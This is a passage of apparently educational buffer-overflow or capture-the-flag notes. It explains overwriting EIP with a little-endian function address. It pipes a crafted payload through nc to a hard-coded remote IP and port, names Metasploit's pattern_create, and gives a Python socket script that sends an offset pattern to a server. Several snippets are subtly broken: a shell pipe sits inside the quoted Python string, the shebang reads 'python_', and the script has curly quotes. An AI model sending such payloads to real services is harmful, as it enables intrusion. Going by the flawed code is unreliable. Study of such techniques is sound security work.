 This can also be done manually:

````
python3 -c "print ('A' *180) | ./elf"
````

When the memory segmentation address is detected, it must be written in Little Endian.

Example:

````
080491e2 = \xe2\x91\x04\x08
````

This fills the buffer and then jumps to the desired function (overwrites the EIP, pointer to the next instruction).

Example running on the server side manually:

```
python -c "print('A'*180 + '\xe2\x91\x04\x08'+'A'*4+'\xef\xbe\xad\xde\r\xd0\xde\xc0')" | nc 206.64.12.123 202
```



## Generate Unique Pattern

> To generate the unique pattern use the following command:

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number>
```

Here we will **create a random pattern** with a length of the chosen bytes.

> Python exploit example:

```
#!/usr/bin/python_

import sys, socket

offset = “Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6[...]”

try:

 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

 s.connect((‘IP’,port))

 s.send((‘<string>’ + offset))

 s.close()

except:

 print “Error connecting to server”

 sys.exit()
```
